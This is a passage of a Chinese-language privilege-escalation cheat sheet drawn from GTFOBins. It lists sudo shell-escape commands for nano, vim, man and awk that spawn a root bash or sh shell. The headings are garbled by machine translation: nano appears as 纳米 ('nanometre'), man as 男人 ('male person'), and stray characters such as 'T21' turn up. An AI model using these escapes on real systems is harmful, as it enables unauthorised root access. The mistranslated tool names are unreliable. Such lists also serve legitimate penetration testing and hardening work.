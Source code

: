 ****纳米**([https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/))**

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

**![](img/07a9d6636315348a0bd2accf5bf2dc71.png)**

**维姆([https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/))T21**

```
sudo vim -c ':!/bin/bash'
```

**![](img/d0bd7d9f8c2eff1a26c8d9c5397ecf5d.png)**

****男人**([https://gtfobins.github.io/gtfobins/man/](https://gtfobins.github.io/gtfobins/man/))**

```
sudo man man
!/bin/bash
```

**![](img/e2644d42d62980912539974f4cc93334.png)**

****awk**([https://gtfobins.github.io/gtfobins/awk/](https://gtfobins.github.io/gtfobins/awk/))**

```
sudo awk 'BEGIN {system("/bin/bash")}'
```

**![](img/4a3c4c636fd93f70f2e423d124f9cb3e.png)**
